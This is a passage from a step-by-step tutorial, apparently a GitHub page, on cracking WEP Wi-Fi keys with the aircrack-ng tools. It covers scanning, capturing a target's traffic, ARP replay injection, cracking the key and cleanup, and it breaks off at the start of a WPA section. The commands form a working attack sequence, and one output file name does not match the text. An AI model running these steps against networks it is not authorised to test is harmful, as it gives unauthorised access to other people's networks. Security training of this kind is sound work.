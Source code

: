 ### Step 3: Scan for WEP Networks
```bash
airodump-ng wlan0
```
This scans nearby networks. Look for one using WEP encryption and note its BSSID, channel, and ESSID.

### Step 4: Capture Traffic from Target
```bash
# Create folder
cd ~/Desktop && mkdir demo_wep && cd demo_wep

# Capture Traffic from Target
airodump-ng --bssid <BSSID> -c <CH> -w wifi_demo wlan0
```
This focuses the scan on the target network, saving all captured packets into a file named `wep_demo.cap`.

### Step 5: ARP Replay Attack
```bash
# Get the wlan0 MAC Address
ifconfig wlan0

# ARP Replay Attack
aireplay-ng -3 -b <BSSID> -h <YOUR_MAC> wlan0
```
This injects captured ARP packets back into the network to generate more traffic (IVs), speeding up the cracking process.

### Step 6: Crack the Key
```bash
aircrack-ng wifi_demo.cap
```
Once enough IVs have been collected (~20,000+), this command attempts to crack the WEP key from the captured packets.

### Step 7: Cleanup
```bash
airmon-ng stop wlan0
service NetworkManager restart
```
Stops monitor mode and restores your normal Wi-Fi connection.

---

## Part 2: Cracking WPA

### Step 1: Verify Your Wi-Fi Adapter
```bash
iwconfig
```
Confirm your adapter is listed and functioning.
